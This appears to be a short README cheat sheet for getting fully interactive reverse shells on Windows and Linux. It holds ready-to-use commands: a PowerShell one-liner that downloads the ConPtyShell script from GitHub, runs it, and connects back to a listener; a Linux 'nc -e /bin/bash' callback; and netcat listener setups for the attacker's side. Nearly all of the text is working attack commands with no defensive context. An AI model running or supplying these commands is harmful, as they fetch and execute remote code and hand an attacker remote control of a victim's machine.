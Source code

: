# Fully-Interactive-Reverse-Shell
## For Windows:
ConPtyShell- a Fully Interactive Reverse Shell for Windows systems.
## Requirements
<p>Client Side: Windows version >= 10 / 2019 1809 (build >= 10.0.17763)</p>
<p>Server Side: any tcp listener, i.e. netcat</p>
#### Via Powershell
## Procedure-
#### Server Side:
```
stty raw -echo; (stty size; cat) | nc -lvnp "port" -s "ip"
```
example : stty raw -echo; (stty size; cat) | nc -lvnp 88 -s 10.0.0.2
#### Client Side:
```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell "ip" "port"
```

example : IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.1 88


## For Linux
#### via terminal
## Procedure-
#### Server Side:
```
nc -lnvp "port" -s "ip"
```
#### Client Side:
```
nc -e /bin/bash "ip" "port"
```
